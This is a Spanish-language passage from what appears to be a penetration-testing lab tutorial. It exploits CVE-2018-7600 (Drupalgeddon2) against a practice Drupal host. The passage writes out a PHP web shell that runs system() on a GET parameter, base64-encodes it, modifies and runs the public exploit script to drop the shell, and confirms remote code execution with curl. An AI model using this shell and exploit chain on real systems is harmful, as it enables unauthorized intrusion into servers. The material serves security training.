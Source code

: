 Podemos verificar rápidamente con`cURL`y ver que el`hello.txt`El archivo se cargó de hecho.

Atacando a Drupal

```
xnoxos@htb[/htb]$ curl -s http://drupal-dev.inlanefreight.local/hello.txt;-)

```

Ahora modificemos el script para obtener la ejecución del código remoto cargando un archivo PHP malicioso.

Código:php

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

Atacando a Drupal

```
xnoxos@htb[/htb]$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K

```

A continuación, reemplacemos el`echo`Comando en el script de explotación con un comando para escribir nuestro script PHP malicioso.

Atacando a Drupal

```
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

```

A continuación, ejecute el script de exploit modificado para cargar nuestro archivo PHP malicioso.

Atacando a Drupal

```
xnoxos@htb[/htb]$ python3 drupalgeddon2.py################################################################# Proof-Of-Concept for CVE-2018-7600# by Vitalii Rudnykh# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders# https://github.com/a2u/CVE-2018-7600################################################################Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php

```

Finalmente, podemos confirmar la ejecución del código remoto usando`cURL`.

Atacando a Drupal

```
xnoxos@htb[/htb]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=iduid=33(www-data) gid=33(www-data) groups=33(www-data)

```

---